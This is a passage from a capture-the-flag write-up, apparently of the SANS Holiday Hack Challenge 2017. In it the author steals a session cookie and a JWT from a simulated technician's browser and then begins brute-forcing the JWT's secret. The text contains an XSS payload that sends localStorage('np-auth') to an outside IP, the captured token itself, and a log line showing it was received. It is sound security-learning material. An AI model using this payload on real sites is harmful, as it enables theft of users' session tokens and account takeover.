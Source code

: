 <img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge07-service-post.jpg" />

And **WHACK**, the cookie came in attached to a GET request from `35.196.239.128`!

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge07-cookie-snag.jpg" />

The cookie returned was **SESSION=hxxer50N2e1C2AFt5X06**

I loaded the cookie into firefox however it seems that an auth_token was also based along with the request and we couldn't just rely on the cookie.

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge07-authtoken.jpg" />

At this point I swallowed my pride and went back to see if the hints could help at all.

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge07-hint3.jpg" />

It would seem that the auth_token is in fact a JWT (JSON Web Token), and by the sounds of the hint, it might be vulnerable. I took a look back at the source code of the site and found this line referencing a `localStorage.setItem()` function on the `np-auth` variable.

```js
localStorage.setItem('np-auth',result.token)
```

I realised I could probably steal the localStorage item as well with a similar XSS injection attack and put together this query to do so.

```bash
let foo = (m) => $.post('/service', {uid:'santa.claus', email:'santa.claus@northpolechristmastown.com', message: m});

foo(`<img src="x" onerror="this.src='http://203.59.106.231:9002/?token=' + localStorage.getItem('np-auth')">`);
```

and **PRESTO!** I got the token from the browser of the technician

```bash
35.196.239.128 - - [28/Dec/2017 16:22:30] "GET /?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.M7Z4I3CtrWt4SGwfg7mi6V9_4raZE5ehVkI9h04kr6I HTTP/1.1" 200 -
```

I found a site https://jwt.io/ which was able to debug **JWT tokens** for me. However I found that the issue with the token I got sent, was that the expiry date was well overdue; meaning I couldn't use it for much more then viewing the way the data schema worked.

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge07-jwt-export.jpg" />

In order to make changes I would unfortunately need to find what secret key was used to encode the JWT token.

Luckily I came across [c-jwt-cracker, A multi-threaded JWT brute-force cracker](https://github.com/brendan-rius/c-jwt-cracker) that seemed very promising.

I pulled down the repo, made the project and kicked off the cracker on the JWT token I had exfiltrated.
